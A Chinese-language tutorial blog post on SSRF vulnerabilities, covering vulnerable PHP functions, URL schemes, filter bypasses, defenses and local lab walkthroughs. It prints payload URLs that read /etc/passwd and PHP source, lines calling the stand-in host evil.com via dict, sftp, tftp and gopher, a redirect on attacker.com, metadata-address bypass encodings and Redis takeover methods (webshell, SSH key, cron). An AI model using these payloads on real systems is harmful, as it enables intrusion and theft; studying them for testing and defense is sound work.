ssrf漏洞总结
Last Update:
Word Count:
Read Time:
ssrf漏洞总结
一、SSRF是什么？
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）
二、SSRF漏洞原理
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。

比如,黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器
1 | |
什么是内网访问
1 | |
什么是端口映射
1 | |
对于这个概念，我个人的理解就是外网的ip地址的一个端口与内网的一个端口(或许是直接对应到内网的某个服务器?下面的图更好理解)实现对应。
我们平时经过路由器，通过宽带，最终去到运营商那边，数据是从运营商出去，最终数据是回到运营商那边，运营商再把数据发送到用户的电脑。
路由器，至少有两个端口：WAN 口和 LAN 口。
WAN：接外部 IP 地址用，通常指的是出口，转发来自内部 LAN 接口的 IP 数据包，这个口的 IP 是唯一的。
LAN：接内部 IP 地址用，LAN 内部是交换机。

A 电脑的 IP 是局域网 IP（192.168.31.11），这个 IP（192.168.31.11）是从路由器的 lan口分配的。
当我们上百度的时候，经过路由器的 wan口，进行相应的IP、端口转化：192.168.31.11:80 -> 10.221.0.24:8080,所以，从 wan口出去的地址为：10.221.0.24:8080。
最后，经过运营商，运营商那边会做相应的端口映射（而且是动态端口映射），子网 IP（10.221.0.24:8080）转化为公网IP（128.0.0.1:8888），通过这个公网 IP 去访问百度服务器
这位博主贴的图也是非常的形象，上面也有详细的介绍。简单来说，就是左下角和右下角两个ip地址对应的都是用户的私有ip，然后通过LAN将子网进行转换。然后再通过WAN口将子网转为公网。
三、漏洞挖掘
危害与利用：
1、端口扫描
对外网、服务器所在内网、本地进行端口扫描
eg：http://example.com/ssrf.php?url=http://192.168.139.1:80/
通过应用响应时间、返回的错误信息，未开放端口会显示空白或者报错，开放端口会显示服务的banner信息
2、攻击内网、本地漏洞服务
攻击运行在内网或本地的应用程序（溢出、弱口令等）
利用Gopher协议拓展攻击面
3、内网Web应用指纹识别、攻击漏洞应用
访问默认文件，对内网web应用进行指纹识别（框架，平台，模块以及CMS等 ）
攻击内外网的web应用，主要是使用get参数就可以实现的攻击（如struts2，sqli等）;
第一步，应用指纹识别---->第二步，寻找漏洞----->第三步，漏洞利用
4、文件读取
读取本地文件，利用file协议读取本地文件，提交参数等
http://example.com/ssrf.php?url=file:///etc/passwd
1 | |
漏洞场景：
1 | |
简单来说：所有目标服务器会从自身发起请求的功能点，且我们可以控制地址的参数，都可能造成SSRF漏洞
1 | |
利用技巧
利用条件：被攻击的服务等没有开启加密传输与鉴权。
端口扫描（扫描内网）
攻击内网存在漏洞的服务
攻击Web应用进行指纹识别及其中的漏洞
如果PHP安装了expect扩展，可以通过expect协议执行系统命令
dos攻击
file 协议暴力枚举敏感文件
Redis未授权漏洞的6种利用方法
保存文件到www目录，形成webshell
创建authorized_keys文件，利用ssh 私钥登录服务器
写计划任务(/var/spool/cron/ & /etc/cron.d/)
slave of 8.8.8.8 主从模式利用
写入到/etc/profile.d/ 用户环境变量修改
开启AOF持久化纯文本记录 appendfilename
存在SSRF漏洞的站点主要利用四个协议，分别是http、file、gopher、dict协议
file协议进行本地文件的读取
http协议进行内网的ip扫描、端口探测
探测到6379端口开放，可以利用http、gopher、dict这几个协议来打开放6379端口的redis服务。

最常见的是通过file、dict、gopher这三个协议来进行渗透。
1 | |
四、产生SSRF漏洞的函数
SSRF攻击可能存在任何语言编写的应用，接下来将举例php中可能存在SSRF漏洞的函数。
1、file_get_contents:（只能使用GET方式获取数据）
下面的代码使用file_get_contents函数从用户指定的url获取图片。然后把它用一个随机文件名保存在硬盘上，并展示给用户。
1 | |
1 | |
2、fsockopen():
以下代码使用fsockopen函数实现获取用户指定url的数据（文件或者html）。这个函数会使用socket跟服务器建立tcp连接，传输原始数据。
1 | |
1 | |
3、curl_exec():支持多种协议
cURL这是另一个非常常见的实现，它通过 PHP获取数据。文件/数据被下载并存储在“curled”文件夹下的磁盘中，并附加了一个随机数和“.txt”文件扩展名。
1 | |
1 | |
注意事项
1 | |
五、SSRF中URL的伪协议
redis服务是在6379端口开启的
浅浅了解一下redis服务

浅浅了解一下curl命令
1 | |
不带有任何参数时，curl 就是发出 GET 请求
1 | |
上面命令向www.example.com发出 GET 请求，服务器返回的内容会在命令行输出
-v参数输出通信的整个过程，用于调试。我们便可以利用-v参数进行读取文件
1 | |
其他参数可以参考curl
常见内网IP段
局域网地址范围分三类，以下IP段为内网IP段：
1 | |
当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL伪协议
1 | |
5.1 file
这种URL Schema可以尝试从文件系统中获取文件：
http://example.com/ssrf.php?url=file:///etc/passwd
http://example.com/ssrf.php?url=file:///C:/Windows/win.ini
如果该服务器阻止对外部站点发送HTTP请求，或启用了白名单防护机制，只需使用如下所示的URL Schema就可以绕过这些限制：
5.2 dict
这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表。
DICT协议,一个字典服务器协议,A Dictionary Server Protocol，允许客户端在使用过程中访问更多字典并且该协议约定服务器端侦听端口号:2628。
http://example.com/ssrf.php?dict://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 31126)CLIENT libcurl 7.40.0
5.3 sftp
在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。
http://example.com/ssrf.php?url=sftp://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 37146)SSH-2.0-libssh2_1.4.2
5.4 ldap://或ldaps:// 或ldapi://
LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
5.5 tftp://
TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3
5.6 gopher://
Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。
Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。
http://example.com/ssrf.php?url=http://attacker.com/gopher.php gopher.php (host it on acttacker.com):-<?php header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');?>
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port1337)Connection from [192.168.0.12] port 1337[tcp/*] accepted (family 2, sport 49398)Hissrftest
六、SSRF漏洞利用（危害）
1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2.攻击运行在内网或本地的应用程序（比如溢出）;
3.对内网web应用进行指纹识别，通过访问默认文件实现;
4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;
5.利用file协议读取本地文件等。.
6.各个协议调用探针：http,file,dict,ftp,gopher等
1 | |
七、漏洞的验证：
根据漏洞产生的原理，对所我们所测试的地方进行一个分析
首先这个地方应该是服务器A请求访问以外的服务端B，而不是客户端向服务器A发起请求
使用排除法：看URL地址中有没有包含其他URL地址，再看数据包的请求
方法一：对URL地址进行分析
我在网上随便找了一张图片，右键新标签打开后
对URL地址进行了解码，就看见了2个包含的URL地址

方法二：对数据包进行分析
其实也可以使用burpsuite抓包进行分析
这里直接看见了文件的URL是其他网站来的

八、利用步骤
第一步：分析是否可能存在SSRF
（一般要测试3个函数curl_exec、file_get_content、fsockopen是否能执行成功）
第二步：测试是哪种函数引起的SSRF漏洞
1 | |
九、绕过方式
部分存在漏洞，或者可能产生SSRF的功能中做了白名单或者黑名单的处理，来达到阻止对内网服务和资源的攻击和访问。因此想要达到SSRF的攻击，需要对请求的参数地址做相关的绕过处理，常见的绕过方式如下：
一、常见的绕过方式
1、限制为http://www.xxx.com 域名时（利用@与/#/）
可以尝试采用http基本身份认证的方式绕过
如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异
在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
/#/符:绕过后缀
一般用于.jpg等固定后缀不可更改
例如http://10.10.10.10:5001/#/abc.jpg，实际在浏览器访问的是 http://10.10.10.10:5001
2.采用短网址绕过
比如百度短地址https://dwz.cn/
3.采用进制转换
127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433.
IP地址转为八、十、十六进制及IP地址省略写法（以下均代表127.0.0.1）
0177.00.00.01
2130706433
0x7f.0x0.0x0.0x1
127.1

4.利用特殊域名
原理是DNS解析。xip.io可以指向任意域名，即
127.0.0.1.xip.io，可解析为127.0.0.1
(xip.io 现在好像用不了了，可以找找其他的)
http://www.owasp.org.127.0.0.1.xip.io/
5.利用[::]绕过localhost
可以利用[::]来绕过localhost
http://169.254.169.254>>http://[::169.254.169.254]
http://[::1]
http://[::]:80/
http://0:80
6.利用句号
127。0。0。1 >>> 127.0.0.1
7.CRLF 编码绕过
%0d->0x0d->\r回车
%0a->0x0a->\n换行
进行HTTP头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
8.利用封闭的字母数字
利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
9.配置域名
手上有可控域名，可将域名指向想要请求的IP
10.库绕过
利用检测时使用的URL parse库与请求时使用的parse库的差异绕过，如 http://1.1.1.1 &@2.2.2.2# @3.3.3.3/ 不同的parse库的解析结果不一样
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
11.dns重定向绕过
一般进行 ssrf 防御的模式如下：

1 | |
然而访问规则在判段得到的IP为指定范围内IP，到服务端请求URL这个中间还存在一个细微的时间差，
DNS重绑定则是利用这一点，让服务器第一次解析host的ip为符合规则的公网IP，在第二次请求解析URL时host的ip又变为了不符合规则的内网IP，从而进行ssrf。
这里推荐使用burpsuite的intruder模块，来批量发送请求，以利用时间差完成ssrf。

在线DNS重绑定平台：https://lock.cmpxchg8b.com/rebinder.html
12.攻击本地
1 | |
13.利用上传
1 | |
14.利用协议
1 | |
15.302重定向
需要一个vps，把302转换的代码部署到vps上，然后去访问，就可跳转到内网中
服务端代码如下：
1 | |
16.使用组合
各种绕过进行自由组合即可
十、SSRF漏防御
通常有以下5个思路：
1.过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
2.统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
3.限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4.黑名单内网，避免应用被用来获取获取内网数据，攻击内网。
5.禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
6.去除url中的特殊字符
7.不跟随30x跳转（跟随跳转需要从1开始重新检测）
8.请求时设置host header为ip
十一、靶场实战
1. SSRF-curl
第一步：分析是否可能存在SSRF
（一般要测试3个函数curl_exec、file_get_content、fsockopen是否能执行成功）
点击它

发现是URL传递的
（如果无法显示，就在127.0.0.1后面加上端口号）

第二步：测试是哪种函数引起的SSRF漏洞
这是个SSRF（curl）靶场，就不做过多测试
函数不同所支持的功能也存在差别
对端口进行一个探测（http协议）(当然实战过程中肯定要对端口进行爆破，响应时间长的端口就是可以访问的端口)
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:3306

能够探测到内容，说明存在SSRF漏洞，并且进一步尝试其他操作
内网应用指纹识别（http协议）
（这个我在尝试的时候，如果原文件带了版本号，读取的时候也要带，大小写不一样不影响）

读取文件（file协议）

2. SSRF-file_get_contents
第一步：判断是否存在SSRF漏洞
上一题是url，这一题是file函数
但是操作还是基本类似

8.2.2、第二步：利用漏洞
读取php源码
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php

再使用base64解密即可得到源码
1 | |
读取本地host等文件
http://localhost:8080/pikachu-master/vul/ssrf/ssrf_fgc.php?file=file://c:\windows\system32\drivers\etc\hosts

3. SSRF-lab实战
1 | |
SSRF-Lab 搭建教程：https://drun1baby.top/2022/05/16/SSRF-Lab环境搭建/
3.1 file协议利用
使用 file 协议进行的任意文件读取算是 ssrf 最简单的利用方式了
首先先写一段有 ssrf 漏洞的代码，命名为 ssrf.php 并部署到服务器上。

用 file 协议简单测试一下，可以看到能成功利用 ssrf 漏洞读取文件。file 协议的格式为：file:// 文件路径
这里不知道为什么我的服务器读取不到内网文件，先借用佬的图片了

Payload
1 | |
这里的 Payload 只是一个基础示范，还可以读取很多文件，在实战渗透当中，更多情况应该是通过 GET 请求攻击的。
1 | |
而在 SSRF-Lab 当中较简单，在框中输入file:///etc/passwd即可。

除此之外，利用这个协议可以读取主机内任意文件。接下来可以读取配置文件和源代码方便进一步的渗透，这里之所以成功实现是因为URL没有经过严格的过滤，所以才可以利用这个协议进行任意文件读取。
3.2 http协议研究
http 协议的利用也很简单，就是向目标发送 http 请求，由于 get 请求的参数是直接加在 url 里的，所以可以探测内网那些使用 get 请求即可攻击的应用。

使用 nc 可以接收到发送的 http 数据包，结构非常简单。


3.3 dict 协议的使用
利用dict协议，dict://ip/info可获取本地redis服务配置信息。
如果在靶场当中要尝试 dict 协议读取 Redis 需要先安装一下 redis-server，具体可见 redis 与 dict 协议
在上面还介绍过redis服务，看了很多SSRF 协议中的利用都是结合 Redis 服务的，所以这里就先在ssrf-basics 容器里面安装该服务
1 | |

安装好之后，便可以利用协议收集信息及反弹 shell
利用dict协议，dict://127.0.0.1:6379/info可获取本地redis服务配置信息
这里大概是因为6379是其默认端口

用 nc 在测试机监听，然后利用 ssrf 漏洞测试一下 dict 协议发送字符串 info，看看接收方会收到什么：


可以看到一共收到了三行数据，第一行是版本号，第二行是我们发送的数据，第三行是自动添加的 QUIT。
dict 协议不支持换行符，没有办法进行换行，相当于一次只能执行一条命令，所以不能用来攻击那些需要交互的应用（比如需要认证的 redis）。

3.4 gopher 协议的使用
首先先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议
1 | |
这便是常见的exp，只需自己更改IP和端口即可，改成适配于Gopher协议的 URL：
1 | |
经过url解码便是：
1 | |
进行测试，成功回显

接下来在 ssrf-lab/basics 容器里面查看插入的 KEY 值，验证是否成功

利用Gopher 协议还可以攻击 FastCGI，攻击内网 Vulnerability Web
高级文章：https://xz.aliyun.com/t/9554#toc-10
需要发送多行数据时，就要用到 gopher 协议，同样使用 nc 简单测试一下，可以看到接收端成功接收到了换行的数据，所以 gopher 协议可以用来攻击那些需要交互的应用。
至于这个 _ 符号暂时不知道为何要+，下面结论有解释


结论：
1 | |
3.5 Weblogic SSRF漏洞
参考：https://xz.aliyun.com/t/7333#toc-5